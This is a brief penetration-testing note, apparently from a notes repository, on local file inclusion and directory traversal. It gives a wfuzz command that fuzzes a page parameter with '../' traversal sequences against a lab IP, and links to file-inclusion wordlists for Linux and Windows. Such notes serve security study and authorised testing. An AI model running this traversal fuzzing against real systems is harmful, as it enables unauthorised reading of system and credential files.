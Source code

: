 # LFI & Directory Traversal

LFI can be a pretty trivial attack path. The most important thing to note is different encodings you might come across when attempting this attack path.

## Automation

```python
wfuzz -c -w ./lfi2.txt --hw 0 http://10.10.10.10/nav.php?page=../../../../../../../FUZZ
```

For the wordlists:

### Linux

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt

### Windows

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt

